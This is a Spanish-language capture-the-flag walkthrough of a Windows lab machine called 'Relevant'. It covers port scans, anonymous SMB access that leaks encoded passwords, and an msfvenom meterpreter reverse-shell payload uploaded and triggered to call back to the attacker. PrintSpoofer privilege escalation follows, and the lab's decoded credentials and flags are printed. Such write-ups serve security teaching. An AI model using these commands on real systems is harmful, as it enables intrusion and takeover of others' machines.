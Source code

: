 # Relevant

## Escaneo de puertos

Realizamos primero un escaneo de puertos para ver los puertos abiertos de la máquina vulnerable.

```
nmap -A -sV -sC -T4 -p- 10.10.121.56
```

Después de esperar unos minutos tenemos los siguientes resultados:

![Escaneo de puertos](./images/Pasted%20image%20202502222121956.png)

Y estos son los resultados del script de`nmap`.

![[Pasted image 20250222121902.png]]

## Enumerating

Tenemos un servicio HTTP por el puerto 80. Sólo nos aparece la página por defecto de Microsoft IIS.

![[Pasted image 20250222122114.png]]

Vamos a enumerar los directorios con`gobuster`.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.121.56
```

![[Pasted image 20250222124555.png]]

Pero no encontramos nada relevante.

Ahora probamos a enumerar con SMB. Usamos el siguiente comando:

```
smbclient -L 10.10.121.56
```

Accedemos como anónimo y nos muestra los siguientes resultados en los que vemos que hay un sharename llamado`nt4wrksv`.

![[Pasted image 20250222123358.png]]

Probamos a acceder:

```
smbclient \\\\10.10.121.56\\nt4wrksv
```

![[Pasted image 20250222123524.png]]

Listamos el contenido de la ubicación en la que estamos y hay un archivo de`passwords.txt`.

![[Pasted image 20250222123614.png]]

Nos los descargamos y salimos.

```
get passwords.txt
```

![[Pasted image 20250222123702.png]]

Mostramos el contenido en el anfitrión.

![[Pasted image 20250222123727.png]]

Y vemos que claramente está codificado en Base64. Decodificamos con el siguiente comando:

```
echo -n Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d 
```

![[Pasted image 20250222123850.png]]

El usuario es`Bob`y la contraseña es`!P@$$W0rD!123`.

Y la de Bill también tenemos:

`bill`

```
Juw4nnaM4n420696969!$$$
```

![[Pasted image 20250222123958.png]]

Hacemos otro escaneo de`nmap`para determinar qué vulnerabilidades hay:

```
nmap -oA nmap-vuln -Pn -script vuln -p 80,135,139,445,3389 10.10.121.56
```

El servidor de Samba es probablemente vulnerable a RCE por el **CVE-2017-0143**.

![[Pasted image 20250222125516.png]]
## Exploitation

Vamos a usar`msfvenom`para crear una reverse shell aprovechándonos del exploit.

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.3.33 lport=4444 -f aspx -o shell.aspx
```

![[Pasted image 20250222130621.png]]

Subimos la reverse shell al network share.

```
put shell.aspx
```

![[Pasted image 20250222131746.png]]

Iniciamos un puerto en escucha en Metasploit:

```
msfconsole -q
```

Usamos el siguiente exploit:

```
use exploit/multi/handler
```

Cargamos el payload que queremos:

```
set payload windows/x64/meterpreter_reverse_tcp
```

Configuramos la IP y el puerto con la de Kali en la VPN.

```
set lhost 10.8.3.33
set lport 4444
```

Ejecutamos el exploit:

```
run
```

![[Pasted image 20250222132122.png]]

Abrimos la shell en la víctima

```
curl http://10.10.160.251:49663/nt4wrksv/shell.aspx 
```

Y se nos inicia la consola de meterpreter que estaba en escucha.

![[Pasted image 20250222134122.png]]

La flag de users está en la siguiente ubicación:

```
cat c:/users/bob/desktop/user.txt
```

![[Pasted image 20250222134239.png]]

```
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

## Escalada de privilegios

Comprobamos los privilegios que tiene la sesión de meterpreter.

![[Pasted image 20250222134526.png]]

Tenemos el de`SeImpersonatePrivilege`.

Nos descargamos`PrintSpoofer64.exe`.

https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

Y subimos el archivo.

![[Pasted image 20250222135514.png]]

Nos ubicamos donde está el PrintSpoofer64.exe y lo ejecutamos.

```
PrintSpoofer64.exe -i -c powershell.exe
```

![[Pasted image 20250222140243.png]]

Finalmente, obtenemos la flag del root.

![[Pasted image 20250222140501.png]]

```
THM{1fk5kf469devly1gl320zafgl345pv}
```


